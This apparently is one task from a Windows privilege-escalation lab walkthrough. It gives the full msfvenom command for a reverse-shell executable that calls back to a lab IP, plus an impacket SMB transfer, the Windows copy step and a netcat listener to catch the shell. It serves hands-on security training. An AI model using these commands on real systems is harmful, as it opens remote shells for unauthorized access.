 # Task 2: Generating a Reverse Shell with msfvenom 💻🔄

## Description
In this task, you need to generate a reverse shell executable (`reverse.exe`) on Kali using **msfvenom**. Be sure to update the LHOST IP address to match your configuration. 🌐

---

### Command to Generate the Shell: 
`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f exe -o reverse.exe`

---

## Transferring `reverse.exe` to Windows
After creating the file, you need to transfer `reverse.exe` to the `C:\PrivEsc` directory on Windows. There are several methods to achieve this, but the simplest is to start an SMB server on Kali in the same directory as the file and then use a standard copy command on Windows.

---

### Steps to Transfer the File:
1. On Kali, in the same directory as `reverse.exe`: 
   `sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .`
2. On Windows (replace the IP address with your Kali IP): 
   `copy \\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe`

---

## Testing the Reverse Shell 🔍
1. Set up a **Netcat** listener on Kali to test the reverse shell: 
   `sudo nc -nvlp 53`
2. Execute `reverse.exe` on Windows and catch the shell: 
   `C:\PrivEsc\reverse.exe`

---

### Important! ⚠️
The `reverse.exe` file will be used in many tasks throughout this room, so do not delete it! 🗑️
